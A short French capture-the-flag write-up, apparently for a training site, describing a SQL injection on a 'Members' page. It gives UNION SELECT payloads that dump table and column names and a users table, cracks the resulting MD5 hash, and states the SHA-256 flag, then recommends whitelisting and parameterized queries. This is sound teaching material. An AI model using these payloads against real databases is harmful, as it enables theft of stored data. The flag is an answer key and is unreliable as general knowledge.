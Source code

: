 # Explication
Dans la page ***Members*** on peut injecter les commandes SQL et récupérer les noms de toutes les tables et de leurs colonnes avec cette commande :
`1 or 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS`

À partir de là on peut trouver n'importe quelle information dans la base de donnée. Dont le flag grâce à la commande : `1 or 1=1 UNION SELECT Commentaire, countersign FROM users`

On obtient : `Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28`

Décrypté en MD5 -> FortyTwo -> lowercase -> fortytwo

Crypté en sha256 ->

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Comment l'eviter ?
Pour s'en prémunir on peut soit whitelist les inputs de l'utilisateur ou encore utiliser des requêtes paramétrées permettant de bien distinguer la commande en elle même et la valeur recherchée entrée par l'utilisateur.

source : https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html#defense-option-4-escaping-all-user-supplied-input